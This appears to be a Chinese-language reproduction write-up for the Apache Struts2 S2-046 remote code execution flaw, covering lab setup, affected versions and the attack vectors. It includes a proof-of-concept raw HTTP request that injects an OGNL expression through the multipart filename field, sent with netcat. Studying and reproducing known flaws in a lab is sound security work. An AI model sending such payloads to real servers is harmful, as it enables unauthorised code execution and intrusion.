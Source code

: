 ## 概述

Struts2 Jakarta 插件存在远程代码执行漏洞

需要在struts.xml中配置 ```<constant name="struts.multipart.parser" value="jakarta-stream" />``` 才能触发。

## 环境搭建

环境一：

	docker pull medicean/vulapps:s_struts2_s2-046

环境二：

将```Struts2FileUpload.war``` war 包部署在tomcat，tomcat自动解压。

访问路径：```http://ip:port/Struts2FileUpload_war/doUpload.action```


## 影响版本

基于Jakarta的文件上传Multipart解析器

Struts 2.3.5-Struts 2.3.31，Struts 2.5- Struts 2.5.10


## 复现

攻击方式有2种。Content-Disposition 值或不正确的Content-Length 标头(Content-Length header, is bigger than Struts2 maximum allowed size 2GB.)执行RCE攻击。如果Content-Disposition / Content-Length 值无效，则会引发异常，然后将其用于向用户显示错误消息。

### poc

	export payload="POST /doUpload.action HTTP/1.1\r\nHost: youguess\r\nContent-Length: 10485760\r\nCache-Control: max-age=0\r\nContent-Type: multipart/form-data; boundary=----WebKitFormBoundaryaaa\r\nConnection: close\r\n\r\n------WebKitFormBoundaryaaa\r\nContent-Disposition: form-data; name=\"upload youguess\"; filename=\"%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test','lee')}\"\r\n\r\n"

	echo -e "$payload" | nc ip 8083

![](1.png)

### exp

见 exp.py

## 参考资料

[Struts2-046: A new vector](https://community.microfocus.com/t5/Security-Research-Blog/Struts2-046-A-new-vector/ba-p/226779#)

https://github.com/vulhub/vulhub/tree/master/struts2/s2-046

https://cwiki.apache.org/confluence/display/WW/S2-046

![](2.png)
